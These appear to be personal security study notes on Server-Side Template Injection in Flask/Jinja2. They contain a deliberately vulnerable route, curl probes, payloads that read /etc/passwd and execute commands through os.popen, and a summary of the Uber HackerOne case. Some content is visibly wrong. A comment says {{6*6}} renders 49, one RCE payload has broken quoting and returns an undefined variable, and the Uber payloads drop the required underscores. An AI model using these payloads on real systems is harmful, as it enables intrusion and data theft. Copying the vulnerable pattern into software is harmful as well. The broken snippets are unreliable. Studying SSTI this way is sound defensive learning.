

> [!info]
> 
> ## What is SSTI?
> 
> **SSTI (Server-Side Template Injection)** is a vulnerability that occurs when an attacker can inject **user-controlled input into a server-side template** and that input is interpreted by the template engine instead of being treated as ordinary data.
> 
> Dynamic web applications often use **templates** to generate pages with user-provided values. If this input is handled insecurely, an attacker may be able to inject template expressions or, depending on the template engine and configuration, potentially achieve **arbitrary code execution on the server**. Because apparently treating user input as code was not enough trouble already.
> 
> SSTI commonly involves:
> 
> - Dynamic pages that use server-side templates
>     
> - User-controlled input being inserted into templates
>     
> - Improper handling or sanitization of that input
>     
> - A template engine interpreting attacker-controlled expressions
>     
> - Possible access to sensitive data or server-side code execution in some cases
>     
> 
> A simplified vulnerable flow looks like this:
> 
> ```text
> User Input
>     │
>     ▼
> Web Application
>     │
>     │ Inserts Input into Template
>     ▼
> Template Engine
>     │
>     │ Interprets User-Controlled Input
>     ▼
> Rendered Response
> ```
> 
> A typical SSTI testing and analysis flow looks like this:
> 
> ```text
> Detection
>     │
>     ▼
> Template Engine Identification
>     │
>     ▼
> Exploitation
> ```
> 
> The exact impact depends on the **template engine**, the application's implementation, and the permissions available to the server-side process. In some cases, SSTI may only allow limited template manipulation, while in more severe cases it can lead to **sensitive information disclosure or Remote Code Execution (RCE)**.

![[Pasted image 20260811165342.png]]



### Vulnerable Code Example

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()
@app.route("/home")

def home():
	name = request.values.get('name')
	output = Jinja2.from_string('hello ' + name + '!').render()
	return output

if __name__ == "__main__":
	app.run(host='0.0.0.0',port=8080)
```

```bash
pip install flask jinja2
py script.py
```

```bash
curl -g 'http://localhost/home?name=CNA' # hello CNA!
curl -g 'http://localhost/home?name={{6*6}}' # hello 49!
```
### Payload

> [!Example]
> Read File for Jinja2
> ```python
> {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
> ```
> ```python
> {{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
> ```
> RCE Jinja2
> ```python
> {{
> x.__init__.__builtins__.exec("from flask import current_app, after_this_request)
> @after_this_request
> def hook(*args,**kwargs):
> 	from flask import make_response
> 	r = make_response('PWN!')
> 	return z
> ")
> }}
> ```
> ```python
> {{
> self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
> }}
> ```

### Real World Example

an example of an SSTI vulnerability is the Uber HackerOne report in which an attacker was able to exploit a vulnerability in the flask Jinja2 template engine used by Uber's website to gain RCE on their serrvers. if user changes the profile, they will receive an email containing their name, Hunter put `{{ '7'*7}}` as his name and update his profile
he received an email containing 7777777 as his name then he continued exploiting the hole by following payloads
```python
{{[].class.base.subclasses()}}
{{''.class.mro()[1].subclasses()}}
{{c,c,c}}
```